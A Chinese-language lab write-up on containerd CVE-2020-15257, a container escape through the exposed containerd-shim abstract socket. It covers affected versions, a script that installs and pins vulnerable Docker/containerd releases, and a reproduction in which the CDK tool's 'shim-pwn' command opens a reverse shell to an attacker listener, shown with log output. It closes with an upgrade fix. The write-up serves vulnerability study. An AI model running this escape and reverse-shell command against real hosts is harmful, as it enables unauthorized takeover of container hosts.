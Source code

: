 # Containerd 漏洞导致容器逃逸 CVE-2020-15257

## 漏洞描述

Containerd 是一个控制 runC 的守护进程，提供命令行客户端和 API，用于在一个机器上管理容器。

在版本 1.3.9 之前和 1.4.0~1.4.2 的 Containerd 中，由于在网络模式为 host 的情况下，容器与宿主机共享一套 Network namespace ，此时 containerd-shim API 暴露给了用户，而且访问控制仅仅验证了连接进程的有效 UID 为 0，但没有限制对抽象 Unix 域套接字的访问，刚好在默认情况下，容器内部的进程是以 root 用户启动的。在两者的共同作用下，容器内部的进程就可以像主机中的 containerd 一样，连接 containerd-shim 监听的抽象 Unix 域套接字，调用 containerd-shim 提供的各种 API，从而实现容器逃逸。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2020-15257
- https://xz.aliyun.com/t/8681
- https://www.cdxy.me/?p=837
- https://github.com/Metarget/metarget
- https://github.com/cdk-team/CDK/issues/114

## 漏洞影响

```
containerd < 1.4.3
containerd < 1.3.9
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_containerd_1.2.6.sh` 安装 Docker 19.03.6 和 Containerd.io 1.2.6：

```shell
#!/bin/bash
set -e

echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 19.03.6..."
DOCKER_VERSION=$(apt-cache madison docker-ce | grep 19.03.6 | head -n1 | awk '{print $3}')
if [ -z "$DOCKER_VERSION" ]; then
  echo "[!] Docker 19.03.6 not found in repository."
  exit 1
fi
echo "[*] Found Docker version: $DOCKER_VERSION"

echo "[*] Searching for containerd.io 1.2.6..."
CONTAINERD_VERSION=$(apt-cache madison containerd.io | grep 1.2.6 | head -n1 | awk '{print $3}')
if [ -z "$CONTAINERD_VERSION" ]; then
  echo "[!] containerd.io 1.2.6 not found in repository."
  exit 1
fi
echo "[*] Found containerd.io version: $CONTAINERD_VERSION"

echo "[*] Installing Docker version $DOCKER_VERSION and containerd.io $CONTAINERD_VERSION ..."
sudo apt install -y docker-ce=$DOCKER_VERSION docker-ce-cli=$DOCKER_VERSION
sudo apt install -y --allow-downgrades containerd.io=$CONTAINERD_VERSION

echo "[*] Locking versions to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current versions:"
docker --version
containerd --version
```

![](images/Containerd%20漏洞导致容器逃逸%20CVE-2020-15257/image-20250526141659954.png)

## 漏洞复现

使用以下命令启动容器：

```shell
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令，查看是否可看到抽象命名空间 Unix 域套接字：

```shell
root@ubuntu:/# cat /proc/net/unix|grep -a "containerd-shim"
```

![](images/Containerd%20漏洞导致容器逃逸%20CVE-2020-15257/image-20250526142415797.png)

然后下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，并将其传入容器 `/tmp` 目录下：

```shell
sudo docker cp cdk_v0.1.6 15257:/tmp
```

攻击端监听 9999 端口。在容器内运行工具，执行反弹 shell 命令，验证得到一个宿主机的 shell：

```shell
sudo docker exec -it 15257 bash
-----
root@ubuntu:/# cd /tmp
root@ubuntu:/tmp# ./cdk_v0.1.6 run shim-pwn 192.168.145.23 9999
2025/05/26 07:27:19 tring to spawn shell to 192.168.145.23:9999
2025/05/26 07:27:19 try socket: @/containerd-shim/moby/662ca282f95fb460dee996c9456dc333c16a556cc3a10f2417f5f6cb87610751/shim.sock
```

![](images/Containerd%20漏洞导致容器逃逸%20CVE-2020-15257/image-20250526152743557.png)

成功接收反弹 shell：

![](images/Containerd%20漏洞导致容器逃逸%20CVE-2020-15257/image-20250526152859687.png)

> 注意，此处最好使用 [cdk v0.1.6](https://github.com/cdk-team/CDK/releases/tag/0.1.6)，如果使用最新版，将触发异常 `connection refused`，可参考 [issues/114](https://github.com/cdk-team/CDK/issues/114)：

![](images/Containerd%20漏洞导致容器逃逸%20CVE-2020-15257/image-20250526153116443.png)

## 漏洞修复

升级 `containerd` 至最新版本。
